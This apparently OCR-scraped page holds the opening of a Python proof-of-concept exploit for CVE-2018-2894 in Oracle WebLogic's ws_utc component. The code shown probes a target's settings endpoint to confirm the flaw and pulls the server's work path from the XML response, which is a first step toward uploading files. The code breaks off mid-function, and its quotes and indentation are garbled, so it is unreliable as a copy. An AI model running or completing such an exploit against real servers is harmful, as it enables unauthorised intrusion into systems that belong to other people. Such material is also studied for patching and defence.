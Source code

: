 ### poc

```
cve-2018-2894_poc_exp.py 
```

```
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import re

import sys

import time

import argparse

import requests

import traceback

import xml.etree.ElementTree as ET

def get_current_work_path(host):

geturl = host + “/ws_utc/resources/setting/options/general”

ua = {‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0’}

values = []

try:

request = requests.get(geturl)

if request.status_code == 404:

exit("[-] {}  don’t exists CVE-2018-2894".format(host))

elif “Deploying Application”.lower() in request.text.lower():

print("[*] First Deploying Website Please wait a moment …")

time.sleep(20)

request = requests.get(geturl, headers=ua)

if “</defaultValue>” in request.content:

root = ET.fromstring(request.content)

value = root.find(“section”).find(“options”)

for e in value:

for sub in e:

if e.tag == “parameter” and sub.tag == “defaultValue”:

values.append(sub.text)

```